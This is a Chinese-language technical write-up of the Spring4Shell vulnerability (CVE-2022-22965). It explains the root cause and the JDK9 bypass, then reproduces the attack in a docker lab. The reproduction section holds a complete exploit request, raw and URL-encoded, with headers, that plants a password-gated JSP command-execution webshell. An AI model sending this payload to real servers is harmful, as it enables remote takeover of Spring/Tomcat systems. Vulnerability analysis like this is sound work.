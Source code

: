 # CVE-2022-22965 Spring Framework远程代码执行

## 0x01 漏洞原理

该漏洞本质上是CVE-2010-1622漏洞的一种绕过情况。
CVE-2010-1622漏洞的原因是Spring参数绑定时，可以注入一个Java pojo对象，这个对象可以恶意地去注册一些敏感tomcat的属性，最后通过修改Tomcat的配置参数执行危险操作。
所以最新的CVE-2022-22965漏洞就是绕过了这个限制，在JDK9中存在可以绕过黑名单禁用的类，导致了这个漏洞，。通过请求传入的参数，利用SpringMVC参数绑定机制，控制了Tomcat AccessLogValve的属性，让Tomcat在webapps/ROOT目录输出定制的“访问日志”tomcatwar.jsp，该“访问日志”实际上为一个JSP webshell。

## 0x02 影响版本
• Spring Framework 5.3.X < 5.3.18
• Spring Framework 5.2.X < 5.2.20

## 0x03 触发条件

1、Apache Tomcat作为Servlet容器；
2、使用JDK9及以上版本的Spring MVC框架；
3、Spring框架以及衍生的框架spring-beans-*.jar文件或者存在CachedIntrospectionResults.class

## 0x04 原理详解——前置知识
### 1.1 SpringMVC参数绑定
参数绑定使程序员编写请求处理时，能够很方便地指定获取的参数以及其类型，并且能够通过请求的参数改变对象的属性：
```java
@RestController
public class IndexController {
    @RequestMapping("/test")
    String test(TestBean testBean){
        testBean.setName("My test");
        return testBean.getName();
    }
}
```
如果这里我们访问url：```127.0.0.1:8080/test?name=123```，那么testBean对象的name属性将会被赋值为123。

SpringMVC支持多层嵌套的参数绑定。假设请求参数名为foo.bar.baz.qux，对应Controller方法入参为Param，则有以下的调用链：
```java
Param.getFoo()
    Foo.getBar()
        Bar.getBaz()
            Baz.setQux() 
```
SpringMVC实现参数绑定的主要类和方法是WebDataBinder.doBind(MutablePropertyValues)。


### 1.2 Tomcat AccessLogValve 和 access_log
Tomcat的Valve用于处理请求和响应，通过组合了多个Valve的Pipeline，来实现按次序对请求和响应进行一系列的处理。其中AccessLogValve用来记录访问日志access_log。Tomcat的server.xml中默认配置了AccessLogValve，所有部署在Tomcat中的Web应用均会执行该Valve，内容如下：
```xml
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

几个重要属性： 
**\- directory**：access_log文件输出目录。 
**-- prefix**：access_log文件名前缀。 
**\- pattern**：access_log文件内容格式。 
**\- suffix**：access_log文件名后缀。 
**\- fileDateFormat**：access_log文件名日期后缀，默认为.yyyy-MM-dd。

### Q1、 为什么部署方式必须为Tomcat war包部署？
- LaunchedURLClassLoader是以jar的形式启动Spring boot的加载器来加载/lib下面的jar，LaunchedURLClassLoader和普通的URLClassLoader的不同之处是，它提供了从Archive里加载.class的能力。参考：[spring boot应用启动原理分析](https://hengyunabc.github.io/spring-boot-application-start-analysis/)
- 在利用时，存在java.lang.Module.getClassLoader()得到org.apache.catalina.loader.ParallelWebappClassLoader这一步，ParallelWebappClassLoader只能是war包部署时的返回值；如果使用jar包的形式进行部署，则此步获取到的对象是org.springframework.boot.loader.LaunchedURLClassLoader，该类下没有resources成员变量，导致利用链断掉。

### Q2、 为什么要jdk9+?
在```org/springframework/beans/CachedIntrospectionResults.java#CachedIntrospectionResults#289```中有对CVE-2010-1622的修复补丁：
```java
...
public final class CachedIntrospectionResults {
    ...
    private CachedIntrospectionResults(Class<?> beanClass) throws BeansException {
    ...
    for (PropertyDescriptor pd : pds) {
				if (Class.class == beanClass &&
						("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
					// Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
					continue;
				}
				if (logger.isTraceEnabled()) {
				...
```
注意到条件if (Class.class == beanClass && ("classLoader".equals(pd.getName()) || "protectionDomain".equals(pd.getName())))，该条件的意思是，如果当前的对象的类为Class.class（即java.lang.Class），并且下一个要解析的属性名为classLoader或protectionDomain，就直接continue，不会再解析该层。而在Spring4shell的绕过中，由于JDK 9+对模块化进行了支持，实现了getModule方法，从而可以通过该方法得到的Module进一步获取classLoader，而不是直接使用Class的getClaasLoader()去获取。

具体来讲就是把
```java
Xxx.getClass()
    java.lang.Class.getClassLoader()
```
替换成
```java
Xxx.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
```
这样就绕过了补丁

##  0x05 漏洞复现

### 1、环境搭建
docker 拉取vulfocus上的镜像
![7db1a42571abc0eb4ac49f3d43a5fc84.png](../_resources/7db1a42571abc0eb4ac49f3d43a5fc84.png)
搭建靶场，成功后访问8888端口显示该页面
![44f8c79fe1351433f8f23343e836d928.png](../_resources/44f8c79fe1351433f8f23343e836d928.png)

### 2、payload格式
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=[带有某前缀和后缀的jsp webshell] （写入shell内容）

class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp（修改tomcat配置日志文件后缀jsp）

class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT（写入shell在网站根目录）

class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell（写入shell文件名称）class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=（文件日期格式（实际构造为空值即可））


```


### 3、构造请求，写入webshell

构造如下请求：
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= 
```

部分进行url编码后：
```url
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= 
```

![2e9e1dc30e6ac08b847d4761bb2dafcc.png](../_resources/2e9e1dc30e6ac08b847d4761bb2dafcc.png)


并在该请求内加入如下请求头：
```
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```
![22076ad5b5f3c3f6158dd6979993388d.png](../_resources/22076ad5b5f3c3f6158dd6979993388d.png)
访问如下url，成功执行

![4c322715a455f7f82563b4d36b481ef1.png](../_resources/4c322715a455f7f82563b4d36b481ef1.png)
![67e9b9f18873a367dd2d4b77b29b04d0.png](../_resources/67e9b9f18873a367dd2d4b77b29b04d0.png)

### 说明：
这些payload可以分开发送，也可以合并在一次请求中，这些属性的修改是直接影响内存的，不会像php一样，下一次请求又复原。

## 0x07 参考资料：
- [Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877/)
- [Spring4Shell PoC Application](https://github.com/reznok/Spring4Shell-POC)
- [Access Log Valve](https://tomcat.apache.org/tomcat-8.0-doc/config/valve.html#Access_Log_Valve)
- [CVE-2022-22965: Spring Framework RCE via Data Binding on JDK 9+ 分析](https://xz.aliyun.com/t/11143)
- [spring boot应用启动原理分析](https://hengyunabc.github.io/spring-boot-application-start-analysis/)
- [Spring4Shell简析（CVE-2022-22965）](https://hachp1.github.io/posts/Web%E5%AE%89%E5%85%A8/20220414-spring4shell.html#%E6%80%BB%E7%BB%93)
- [[CVE-2022-22965]-Spring Framework远程代码执行漏洞复现](https://www.freebuf.com/vuls/333159.html)